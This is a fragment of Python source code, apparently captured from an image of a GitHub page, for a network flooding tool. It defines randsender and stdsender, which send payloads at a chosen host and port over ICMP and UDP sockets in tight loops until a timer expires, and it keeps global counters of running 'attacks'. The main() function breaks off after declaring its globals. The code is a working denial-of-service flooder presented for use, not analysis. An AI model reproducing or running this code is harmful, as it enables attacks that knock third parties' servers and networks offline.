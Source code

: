 def randsender(host, timer, port, punch):
	global iaid
	global aid
	global tattacks
	global running

	timeout = time.time() + float(timer)
	sock = socket.socket(socket.AF_INET, socket.IPPROTO_ICMP)

	iaid += 1
	aid += 1
	tattacks += 1
	running += 1
	while time.time() < timeout and ldap and attack:
		sock.sendto(punch, (host, int(port)))
	running -= 1
	iaid -= 1
	aid -= 1


def stdsender(host, port, timer, payload):
	global atks
	global running

	timeout = time.time() + float(timer)
	sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	
	atks += 1
	running += 1
	while time.time() < timeout and attack:
		sock.sendto(payload, (host, int(port)))
		sock.sendto(payload, (host, int(port)))
		sock.sendto(payload, (host, int(port)))
		sock.sendto(payload, (host, int(port)))
		sock.sendto(payload, (host, int(port)))
		sock.sendto(payload, (host, int(port)))
		sock.sendto(payload, (host, int(port)))
		sock.sendto(payload, (host, int(port)))
	atks -= 1
	running -= 1

def main():
	global fsubs
	global tpings
	global pscans
	global liips
	global tattacks
	global uaid
	global running
	global ldap
	global said
	global iaid
	global haid
	global aid
	global attack
